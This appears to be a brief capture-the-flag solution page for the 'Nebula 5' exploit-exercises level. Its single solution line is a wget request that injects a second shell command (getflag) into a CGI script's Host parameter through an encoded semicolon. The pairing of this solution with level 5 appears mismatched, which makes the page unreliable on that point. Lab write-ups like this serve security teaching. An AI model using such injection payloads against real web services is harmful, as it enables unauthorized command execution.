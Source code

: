 .. _nebula5:

.. role:: bash(code)
	  :language: bash

Nebula 5
========

Basic Information
-----------------


**Home Page** https://exploit-exercises.com/nebula/level05/

Solution
--------

:bash:`wget *nebula's IP*/index.cgi?Host=%3Bgetflag`
